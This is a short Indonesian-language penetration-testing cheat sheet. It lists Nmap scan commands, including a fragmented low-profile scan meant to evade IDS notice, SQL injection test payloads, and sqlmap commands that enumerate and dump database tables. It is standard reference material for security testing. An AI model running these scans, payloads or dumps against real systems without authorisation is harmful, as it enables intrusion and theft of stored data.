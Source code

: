 # 📚 Cheat Sheet & Template Penting

## 1. Perintah Nmap Penting

### 1.1 Pemindaian Dasar
```bash
# Pemindaian cepat port TCP
nmap -T4 -F [TARGET]

# Pemindaian versi layanan
nmap -sV -sC [TARGET]

# Pemindaian semua port TCP
nmap -p- -T4 [TARGET]

# Pemindaian UDP
nmap -sU -p 53,67,68,69,123,161,162 [TARGET]

# Pemindaian OS dan versi
nmap -O -sV [TARGET]
```

### 1.2 Pemindaian Lanjutan
```bash
# Pemindaian dengan script NSE bawaan
nmap --script=vuln [TARGET]

# Pemindaian dengan waktu yang tidak mencolok
nmap -T2 -f --data-length 16 --max-retries 3 [TARGET]

# Simpan hasil dalam format berbeda
nmap -oN normal.txt -oX xml_output.xml [TARGET]

# Scan dengan deteksi firewall/IDS
nmap -sS -sV --script=http-waf-detect [TARGET]
```

## 2. SQL Injection Cheat Sheet

### 2.1 Deteksi SQLi
```sql
' OR '1'='1
" OR "1"="1
' OR '1'='1'--
' OR '1'='1'/*
' OR '1'='1'#
```

### 2.2 Eksploitasi dengan SQLmap
```bash
# Deteksi parameter rentan
sqlmap -u "http://example.com/page.php?id=1" --forms --crawl=1

# Dump database
sqlmap -u "http://example.com/page.php?id=1" --dbs

# Dump tabel dari database tertentu
sqlmap -u "http://example.com/page.php?id=1" -D database_name --tables

# Dump isi tabel
sqlmap -u "http://example.com/page.php?id=1" -D database_name -T table_name --dump
```